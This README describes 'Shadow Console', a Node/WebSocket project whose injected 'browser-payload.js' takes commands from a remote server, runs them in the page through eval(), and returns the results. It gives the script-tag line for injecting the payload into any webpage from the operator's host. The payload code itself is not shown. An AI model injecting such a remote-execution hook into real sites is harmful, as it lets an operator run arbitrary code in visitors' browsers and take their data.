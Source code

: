 # Shadow Console

A real-time JavaScript command execution system that allows you to run JavaScript commands on any webpage where the payload script is injected.

## Project Structure

```
shadow-console/
├── public/                    # Static files served by Express
│   ├── browser-payload.js    # WebSocket client that executes commands in browser
│   └── index.html           # Command input interface
├── server.js                # Main server file with WebSocket and HTTP endpoints
├── package.json           # Project dependencies and scripts
├── package-lock.json     # Locked versions of dependencies
├── .env                # Environment variables
├── .gitignore         # Git ignore rules
└── README.md         # Project documentation
```

## Deployment on Render.com

1. Create a new Web Service on Render
2. Connect your GitHub repository
3. Configure the following:
   - Build Command: `npm install`
   - Start Command: `node server.js`
   - Environment Variables:
     ```
     MONGODB_URI=your_mongodb_atlas_uri
     ```

## Usage

1. Access the command interface at your Render URL:
```
https://your-app-name.onrender.com
```

2. To inject the payload into any webpage, add this script tag:
```html
<script src="https://your-app-name.onrender.com/browser-payload.js"></script>
```

## How It Works

1. **Command Submission**
   - User enters command in web interface
   - Command is saved to MongoDB
   - Server broadcasts command to all connected clients via WebSocket

2. **Command Execution**
   - Payload script receives command via WebSocket
   - Executes command using `eval()`
   - Sends execution result back to server
   - Server updates command status in MongoDB

3. **Real-time Communication**
   - WebSocket ensures instant command execution
   - No polling required
   - Bi-directional communication for results

## Security Considerations

- The payload uses `eval()` which can execute any JavaScript code
- Only use in controlled environments
- Consider adding authentication and command validation
- Use environment variables for sensitive data
- Use MongoDB Atlas for database

## Dependencies

Main dependencies from package.json:
- `express`: Web server framework
- `mongoose`: MongoDB ODM
- `ws`: WebSocket server and client
- `dotenv`: Environment variable management
- `cors`: Cross-Origin Resource Sharing support

## Development

1. Local Setup:
```bash
npm install
```

2. Create `.env`:
```
MONGODB_URI=your_mongodb_uri
```

3. Start development server:
```bash
npm run dev
```
